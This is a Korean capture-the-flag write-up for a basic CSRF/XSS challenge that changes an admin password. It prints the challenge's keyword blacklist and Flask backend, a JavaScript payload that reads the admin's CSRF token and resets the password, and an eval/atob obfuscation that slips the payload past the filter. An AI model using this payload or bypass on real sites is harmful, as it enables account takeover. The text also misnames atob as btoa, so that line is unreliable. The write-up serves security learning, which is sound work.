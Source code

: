 # csrf2 - change admin password2
- 난이도 : basic
- site : 금융보안원
## 풀이
```py

def xsscheck(content):
    content = content.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "base","\\u", "embed", "&#", "alert","fetch","XMLHttpRequest","eval","constructor"]
    vulns += list("'\"")
    for char in vulns:
        if char in content:
            return True

    return False
```
백엔드 로직 확인
```py
@app.route("/changepw", methods=["GET"])
def changepw():
    if "userid" not in flask.request.args or "userpw" not in flask.request.args:
        flask.session["csrf_token"] = binascii.hexlify(os.urandom(16)).decode()
        return flask.render_template("changepw.html", msg="false", csrf_token=flask.session["csrf_token"])
    else:
        if "csrf_token" not in flask.request.args:
            return flask.render_template("changepw.html", msg="please input csrf token")

        
        if flask.request.args["csrf_token"] != flask.session["csrf_token"]:
            return flask.render_template("changepw.html", msg="csrf token not match!")

        userid = flask.request.args["userid"]        
        userpw = flask.request.args["userpw"]
                
        if userid == "admin":
            if flask.request.remote_addr != socket.gethostbyname("arang_client"):
                return flask.render_template("changepw.html", msg="admin password is only changed at internal network")
        
        if userid in ids:
            ids[userid] = userpw
            return flask.redirect(flask.url_for("login"))
        else:
            return flask.render_template("changepw.html", msg="user doesn't exist")

```
첫 접속 시 /changepw에 해당 계정에 대한 csrf_token을 hidden으로 생성, 그 후 비밀번호 변경 시 파라미터에 해당 csrf_token을 넣어 줘야함.

그럼 관리자가 특정 사이트를 접속 했을 때 관리자의 csfr_token을 읽고 그대로 파리미터에 넣으면 관리자 비밀번호를 임의의 비밀번호로 바꿀 수 있음. 

```js
fetch(`/changepw`)
  .then(response => response.text())
  .then(html => {
    // HTML에서 CSRF 토큰 파싱
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, `text/html`);
    const csrfToken = doc.querySelector(`input[name="csrf_token"]`).value;

    // CSRF 토큰을 포함한 새로운 GET 요청
    const userid = `admin`;
    const userpw = `11`;
    const url = `/changepw?userid=${userid}&userpw=${userpw}&csrf_token=${csrfToken}`;
      console.log(url)
    return fetch(url);
  })
```
이러한 payload를 짜서 XSS에 담으면 관리자가 읽고 자기 csrf 토큰을 인자에 넣어 비밀번호를 11로 바꿀 것이다.

그럼 이 payload를 어떻게 우회해서 심을 것인가
```html
<script>
    self[`ev`+`al`](atob(`base64로인코딩된payload`));
</script>
```
이렇게 하게 되면 base64로 인코딩된 payload가 btoa에 의해 다시 정상 자바스크립트로 풀리게 되고 그걸 eval이 실행해 해당 payload가 실행되게 된다.
